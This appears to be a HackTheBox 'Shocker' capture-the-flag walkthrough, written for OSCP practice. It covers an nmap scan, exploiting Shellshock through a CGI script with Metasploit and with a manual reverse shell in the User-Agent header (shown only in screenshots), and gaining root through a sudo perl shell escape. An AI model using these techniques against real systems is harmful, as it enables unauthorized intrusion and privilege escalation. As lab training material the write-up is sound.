 ```yaml
---
title: HackTheBox - Shocker
date: 2020-12-23 13:32:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, shellshock, metasploit, meterpreter, gtfobins, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/shocker.png
---
```


## Foothold

### `nmap` scan

```bash
$  nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Shocker-full-port-scan.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
53649/tcp filtered unknown
```

### Apache/2.4.18 (port 80) 

![dont-bug-me](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/dont-bug-me.png)

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/dirb.png)

Seeing that there is a `/cgi-bin directory`, the webserver is probably vulnerable to Shellstock bash RCE.

> **Shellshock bash remote code execution vulnerability**: affects web servers utilizing **CGI** (**C**ommon **G**ateway **I**nterface) &rarr;  a system for generating dynamic web content. Directories such as `/cgi-sys`, `/cgi-mod`, `/cgi-bin` can be found.

Adding `-X .sh` to `dirb`, we found a [user.sh](http://10.10.10.56/cgi-bin/user.sh) file:

![user-sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh.png)

![user-sh-content](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh-content.png)


We can have a shell via `metasploit`:

![shellshock](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/shellshock.png)

![meterpreter](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/meterpreter.png)

However, since I do this box to get ready for **OSCP**, I want to exploit this vuln manually. Via `curl` or from `burp`, I replace `User-agent`'s content by a **reverse shell** payload:

![burp-1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/burp-1.png)

First we've got the following error: `/bin/bash: bash: Nu such file or directory`.

So I replace `bash` by `/bin/bash` and it worked:

![burp-2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/burp-2.png)

## User (shelly)

Flag:

![user-flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-flag.png)

We can run `perl` with sudo:

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/sudo-l.png)

Let's check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) privesc:

![gtfoperl](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/gtfoperl.png)

## Root

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt 
9be1ed1fbbe0c3319f9cc05dbcdb7941
```

___

## Useful links

- [Exploit Shellshock on a Web Server Using Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)